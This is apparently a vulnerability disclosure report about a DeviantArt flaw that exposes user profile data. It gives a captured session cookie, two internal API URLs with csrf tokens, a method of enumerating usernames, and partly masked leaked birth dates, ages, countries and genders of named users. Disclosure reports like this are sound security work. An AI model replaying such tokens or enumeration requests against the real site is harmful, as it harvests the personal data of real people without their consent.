 # About DeviantArt Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie: _pxvid=e4acfaa6-ecf3-11ee-be05-7d83d8babacd; g_state={"i_l":0}; auth_secure=__bea9d1146cd16109afc2%3B%226ed30eb33350136494e9e3b45f271470%22; userinfo=__2f5c8815408eeb61b3c9%3B%7B%22username%22%3A%22QMZHN%22%2C%22uniqueid%22%3A%2223b565bd0e762f7cd75659094fc56487%22%2C%22dvs9-1%22%3A1%2C%22ab%22%3A%22tao-nf2-1-a-8%22%7D; auth=__a70aa9491e325b0fe111%3B%22feb204ea67776eb4994989188d2e357a%22; td=0:1737%3B3:1077%3B6:1301x736%3B7:1777%3B10:1077%3B11:536%3B12:1857x1004%3B21:634%3B22:600
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: Country, age, date of birth, gender, personal website, etc.

> Request method: GET, information can be obtained by traversing the constructed username, such as "koriarredondo", "Elka0815","shiosss"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params|
|-|---|--|
|koriarredondo|https://www.deviantart.com/_puppy/dauserprofile/init/about?username=koriarredondo&csrf_token=tNnhgu02LdlrC1WT.sbcdyw.Uj3DmWtqpUy-dIINHK-fHLfouuup8z8XO-EpluONyRQ&da_minor_version=20230710|username=koriarredondo|
|shiosss|https://www.deviantart.com/_puppy/dashared/user/info?username=shiosss&expand=user.stats%2Cuser.profile%2Cuser.watch&csrf_token=mRd-mp-KHjKyyHJj.sb23j3.VDWeOXZVJAA2jwIehgD9t_OFtdksipKgjospygSXZMU&da_minor_version=20230710|username=shiosss|


### Leaked packet cases 
shiosss:
``` {
 "username": "shiosss",
 "country": "****",
 "countryId": *
 "countrycode": "**",
 "age": null,
 "dobYear": null,
 "dobMonth": **,
 "dobDay": *,
 "deviantFor": 484826,
 "isArtist": false,
 "level": 0,
 "specialty": 0,
 "website": "",
 "websiteLabel": null,
 "tagline": "Shion Yg",
 "twitterUsername": null,
 "gender": "******",
 "isOpenForCommissions": false,
 "hasActiveCommissions": false,
 "showBadges": true,
 "interests": [],
 "badges": [],
 "socialLinks": [],
 "mutualWatchedUsers": [],
 "mutualWatchedUsersCount": 0,
```
koriarredondo:
``` {
 "username": "KoriArredondo",
 "country": "*****",
 "countryId": 1**,
 "countrycode": "**",
 "age": **,
 "dobYear": 1***,
 "dobMonth": *,
 "dobDay": **,
 "deviantFor": 430708777,
 "isArtist": true,
 "level": 3,
 "specialty": 3,
 "website": "",
 "websiteLabel": "",
 "tagline": "",
 "twitterUsername": null,
 "gender": "****",
 "isOpenForCommissions": false,
 "hasActiveCommissions": false,
 "showBadges": false,
```
